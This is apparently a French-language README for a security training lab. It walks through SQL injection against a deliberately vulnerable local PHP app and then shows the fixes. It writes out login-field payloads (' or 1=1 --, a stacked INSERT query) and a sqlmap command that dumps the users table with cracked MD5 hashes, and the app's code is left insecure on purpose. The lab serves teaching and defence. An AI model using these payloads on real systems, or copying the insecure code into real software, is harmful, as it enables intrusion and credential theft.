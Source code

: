 # TP - formation sécu n°1

## Déroulement

Suivre les étapes et pratiquer ou suivre la vidéo.

## Démarrage

1. Récupérer le projet et lancer la plateforme

    >```bash
    >    git pull git@github.com:frederictriquet/formation_secu_1.git
    >    docker-compose up
    >```

1. Se connecter à <http://localhost:8080/> avec un navigateur.
1. Cliquer sur __reset database__
1. Voir les mauvaises pratiques dans le code :

    - __webapp/webroot/reset.php__
        - les mots de passe sont stockés __hashés en MD5__
    - __webapp/webroot/sqli/index.php__
        - le champ __login__ du formulaire est utilisé directement dans la requête SQL

## Exploitation de l'injection SQL

Le champ __password__ est volontairement visible.
Les mots de passe se trouvent dans __webapp/webroot/reset.php__

1. Cliquer sur __SQL injection__
1. Tester le formulaire
    - __admin__/__incorrect__ : aucun utilisateur ne correspond
    - __admin__/__password__ : 1 utilisateur correspond

1. Dans le champ __login__, tester :
    > login = `'`

    Il n'est pas utile de saisir de mot de passe.

    Initialement, la requête SQL est :

    >```sql
    >$query  = "SELECT COUNT(*) FROM users WHERE login='$login' AND password='$hash';";
    >```

    La requête SQL envoyée à la base de donnée sera :

    >`SELECT COUNT(*) FROM users WHERE login=''' AND password='d41d8cd98f00b204e9800998ecf8427e';`

    Ce qui provoque une erreur de syntaxe au niveau des 3 quotes qui se suivent.

1. Première exploitation : détourner le fonctionnement du code

    > login = `' or 1=1 --`
    >
    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='' or 1=1 --' AND pass...";
    >--------------------------------------------------|_________|
    >```

    - La quote ferme la première chaîne de caractères
    - `or 1=1` est une condition toujours vraie
    - tout ce qui est après `--` est ignoré (commentaires)

    La requête SQL traitée par la base de donnée est donc :

    >```sql
    >SELECT COUNT(*) FROM users WHERE login='' or 1=1
    >```

    Cela va donc renvoyer le nombre d'utilisateurs présents dans la table __users__ au lieu de ne renvoyer que 0 ou 1 lors d'une utilisation normale.

1. Deuxième exploitation : exécuter une requête arbitraire

    > login = `';INSERT INTO users VALUES (12, 'fred', md5('fred')) --`

    La requête devient alors :

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='';INSERT INTO users VALUES (12, 'fred', md5('fred')) --' AND pass...";
    >```

    La seconde partie est une seconde requête qui ajoute un utilisateur dans la table __users__.

1. Troisième exploitation : avec l'outil dédié __sqlmap__

    > docker-compose run sqlmap -u "http://web/sqli/" --data "login=someuser&password=letMeIn" --batch --dump

    Cet outil exploite les injections SQL et réussit ici à extraire le contenu et la structure des tables. Il sait déchiffrer les champs comme nos mots de passe hashés en MD5.

    ```data
        +----+-------+----------------------------------------------+
        | id | login | password                                     |
        +----+-------+----------------------------------------------+
        | 1  | admin | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 2  | alice | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 3  | bob   | e99a18c428cb38d5f260853678922e03 (abc123)    |
        | 4  | carol | 8ae1dd156c62f4f0b0b31c29b46f8e48             |
        | 5  | dave  | 437b930db84b8079c2dd804a71936b5f (something) |
        | 12 | fred  | 570a90bfbf8c7eab5dc5d4e26832d5b1 (fred)      |
        +----+-------+----------------------------------------------+
    ```

    Le mot de passe un peu plus complexe de l'utilisatrice __carol__ peut être retrouvé grâce à des [rainbow tables](https://en.wikipedia.org/wiki/Rainbow_table) disponibles par exemple chez [Hash Toolkit](https://hashtoolkit.com/).

## Corriger les vulnérabilités du code

1. modifier soi-même le code ou basculer sur la branche __secure__ :

    >```bash
    >git checkout secure
    >```

1. correction du problème de stockage de mots de passe

    - __webapp/webroot/reset.php__, remplacer

        >```php
        >$hash = md5($user[1]);
        >```

        par

        >```php
        >$hash = password_hash($user[1],PASSWORD_DEFAULT);
        >```

    - __webapp/webroot/reset.php__, remplacer

        >```sql
        >password CHAR(32) NOT NULL
        >```

        par

        >```sql
        >password CHARACTER VARYING(64) NOT NULL
        >```

    - __webapp/webroot/sqli/index.php__, utiliser __password_verify()__

1. correction du problème d'injection
    - __webapp/webroot/sqli/index.php__
        Utiliser les requêtes paramétrées (__pg_query_params()__) partout où des données viennent de l'utilisateur

## Autre mauvaise pratique

- __docker-compose.yml__ et __webapp/webroot/include/db.inc.php__
    l'utilisateur __root__ est utilisé pour toutes les requêtes à la base de données
